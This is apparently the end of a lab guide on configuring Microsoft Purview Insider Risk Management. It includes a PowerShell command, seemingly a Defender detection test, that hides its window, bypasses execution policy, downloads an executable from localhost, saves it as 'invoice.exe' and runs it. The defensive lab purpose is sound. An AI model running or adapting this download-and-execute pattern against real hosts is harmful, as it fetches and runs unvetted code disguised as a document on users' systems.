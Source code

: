 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```

You have successfully created the Insider risk management policies.

## Summary:

In this lab we explored setting up Insider Risk Management from
end-to-end. With your own subscription and licenses, you can also use
this lab guide to create an Azure setup that can also be used to create
various alerts (which includes sending emails with restricted data,
which is not possible from a trial subscription) for the Insider Risk
management policies which you can use to explore the Adaptive Protection
feature on Purview.
